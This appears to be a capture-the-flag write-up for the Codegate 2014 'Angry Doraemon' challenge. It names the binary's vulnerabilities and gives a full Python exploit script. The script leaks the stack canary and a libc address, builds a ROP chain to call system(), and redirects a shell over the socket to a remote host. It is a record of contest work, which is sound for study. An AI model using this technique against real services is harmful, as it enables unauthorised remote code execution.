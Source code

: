 ```yaml
---
title: Codegate CTF Quals 2014 Angry Doraemon writeup
author: kelwin
layout: post
permalink: /2014-02-25-codegate-ctf-quals-2014-angry_doraemon-writeup/
comments: true
categories:
  - CTF
  - writeup
---
```


## Vulnerabilities
After reversing the binary, we found several vulnerabilities as below:

1. There is a suspected backdoor `execl('/bin/sh')` in the option `1.Sword`, but as a remote service, the local shell cannot interact with the client side;
2. There is an arbitrary address jump in the option `5.Fist attack`, but the addresses that start with "0x08" is not allowed;
3. There is a buffer overflow bug in the option `4.Throw mouse `. Although the related function is protected by stack canary, we can leak the whole canary by overwriting the  first byte 0x00 in the canary. 

The 3rd vulnerability is easier to exploit. We choose it to do exploitation.

## Exploitation

Exploitation steps are as below:

1. Leak the stack canary and stack address in the option `4.Throw mouse` handler;
2. Launch ROP attack to call write() in the PLT to leak libc address(e.g. write() in GOT), and then we can calculate the address of system()
3. Launch ROP attack to call system(), and the shell command can be put in the stack since we already know the stack address in step 1

## Code

```python
from zio import *
import sys

host = "58.229.183.18"
port = 8888

# STEP1: leak stack canary and stack address
io = zio((host, port), print_read=False, print_write=False)
payload = "y" + "A" * 10
io.write("4444" + payload)
io.read_until("You choose '")
io.read_until("'!\n")
leak = io.before[len(payload):]
canary = "\x00" + leak[:3]
stack_ref = l32(leak[3:7])
print "[+] canary: %s" % canary.encode('hex')
print "[+] stack addr ref: %s" % hex(stack_ref)

# STEP2: leak libc address
io = zio((host, port), print_read=False, print_write=False)
write_plt = 0x80486e0
write_got = 0x804b040
fd = 4
junk = "JJJJ"
payload = "y" + "A" * 9 + canary + junk * 3 + l32(write_plt) + junk + l32(fd) + l32(write_got) + l32(4)
io.write("4444" + payload)
io.read_until("Are you sure? (y/n) ")
write = l32(io.read(4))
system = write - 0xe0910 + 0x41260
print "[+] write: %s" % hex(write)
print "[+] system: %s" % hex(system)

# STEP3: pwn
io = zio((host, port), print_read=False, print_write=False)
cmd = "sh 0<&4 1>&4\x00"
cmd_addr = 0xbfc56788 - 0xbfc56798 + stack_ref
print "[+] cmd address: %s" % hex(cmd_addr)
payload = "y" + "A" * 9 + canary + junk * 3 + l32(system) + junk + l32(cmd_addr) + cmd
io.write("4444" + payload)
io.read_until("Are you sure? (y/n) ")
print "[+] We've got a shell;-)"
io.interact()
```
